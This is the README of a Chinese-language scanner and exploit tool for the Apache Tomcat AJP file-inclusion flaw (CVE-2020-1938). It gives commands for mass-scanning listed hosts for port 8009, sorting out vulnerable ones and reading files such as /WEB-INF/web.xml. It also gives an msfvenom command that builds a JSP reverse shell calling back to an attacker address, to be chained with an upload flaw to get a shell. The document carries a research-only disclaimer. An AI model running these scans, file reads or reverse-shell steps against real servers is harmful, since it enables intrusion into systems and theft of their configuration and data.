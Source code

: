 # 说明
**工具仅用于安全研究以及内部自查, 禁止使用工具发起非法攻击, 造成的后果由使用者负责**

Apache Tomcat文件包含漏洞（CVE-2020-1938 / CNVD-2020-1048 ）批量检测工具. 

此项目在[Kit4y的项目](https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner)的基础上进行修改. 

# 代码修改
当ip.txt中只有1个域名或ip时, 会使得threadCount为1, 程序实际上没有运行, 增加判断线程数的代码
<pre>
...
if threadCount == 1:
    threadCount = 2
for i in range(0,threadCount-1):
...
</pre>

</pre>
修改少量代码, 以兼容Python3. 修改前的代码
<pre>
self.stream = self.socket.makefile("rb", bufsize=0)
</pre>
<pre>
print("".join([d.data for d in data]))
</pre>
修改后的代码
<pre>
if sys.version_info < (3, 0):
    self.stream = self.socket.makefile("rb", bufsize=0)
else:
    self.stream = self.socket.makefile("rb", buffering=None)
</pre>
<pre>
if sys.version_info < (3, 0):
    print("".join([d.data for d in data]))
else:
    print(b"".join([d.data for d in data]).decode("UTF-8"))
</pre>


# 使用
## 批量检测
**1、将需要扫描的域名/ip放于 ip.txt, 如**
> 127.0.0.1  
> www.baidu.com  
> www.google.com  

**2、python threading-find-port-8009.py**

扫描ip.txt中域名/ip找出开放8009端口的, 存放于生成的8009.txt中 

**3、python threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py**

从8009.txt中筛选出符合漏洞的url, 放置于vul.txt中. 最后vul.txt中存在的域名即为含有漏洞的域名

## 单站点检测
python CNVD-2020-10487-Tomcat-Ajp-lfi.py target.com
> python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f /WEB-INF/web.xml 192.168.125.128  
> 
> python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f /index.jsp 192.168.125.128

## 跨目录和反弹shell
默认读取webapps下的ROOT，修改“/asdf”为“/test/asdf”可以访问webapps下test目录的内容
<pre>
t.perform_request('/asdf',attributes=[
</pre>

若服务器同时存在文件上传漏洞，上传下面的shell.txt
<pre>
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.125.130 LPORT=4444 > shell.txt
</pre>  
修改“/asdf”为“/asdf.jsp”，启动MSF后使用PoC工具可以取得shell


# 其他相关工具
https://github.com/0nise/CVE-2020-1938  
https://github.com/hypn0s/AJPy  
https://github.com/00theway/Ghostcat-CNVD-2020-10487